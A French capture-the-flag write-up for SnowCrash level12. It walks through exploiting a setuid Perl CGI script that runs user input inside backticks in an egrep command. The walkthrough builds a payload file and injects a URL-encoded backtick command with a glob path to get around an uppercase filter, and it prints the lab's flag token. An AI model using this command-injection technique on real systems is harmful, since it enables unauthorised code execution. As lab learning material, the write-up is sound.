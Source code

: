Avec la commande **ls**, on trouve le fichier **level12.pl**.

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Le script Perl ci-dessous est un script CGI qui prend deux paramètres en entrée via une requête HTTP et affiche `.` ou `..` selon le résultat.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

On peut communiquer avec le script à l'aide de **curl**.

```bash
level12@SnowCrash:~$ curl "http://localhost:4646?x=hello"
..
```

Seul le paramètre **x** nous sera utile, dans la fonction **t** il est stocké dans la variable **xx** et 2 opérations sont effectuées sur lui.
- `tr/a-z/A-Z/` : Convertit toutes les lettres en majuscules.
- `s/\s.*//` : Supprime tout ce qui suit le premier whitespace.

(`hello world` devient `HELLO`)

Le script exécute une commande **egrep** à l'aide des backtick, sans vérifier le contenu de **xx**, on peut donc exécuter ce que l'on veut.

Cependant, il faut prendre en compte que tout doit être en majuscule et qu'il n'y a pas de whitespace.

La commande `getflag` deviendra `GETFLAG`, et ceci n'est pas une commande reconnue.

La solution est de mettre la commande dans un fichier et d'exécuter ce fichier.

```bash
level12@SnowCrash:~$ echo "getflag | wall" > /tmp/PAYLOAD
level12@SnowCrash:~$ chmod +x /tmp/PAYLOAD
```

Notre payload sera donc `` `/*/PAYLOAD` ``.

Il reste juste à l'encoder sous format URL à l'aide du site [urlencoder](https://www.urlencoder.org/fr/).

```bash
level12@SnowCrash:~$ curl "http://localhost:4646?x=%60%2F%2A%2FPAYLOAD%60"

Broadcast Message from flag12@Snow
        (somewhere) at XX:XX ...

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```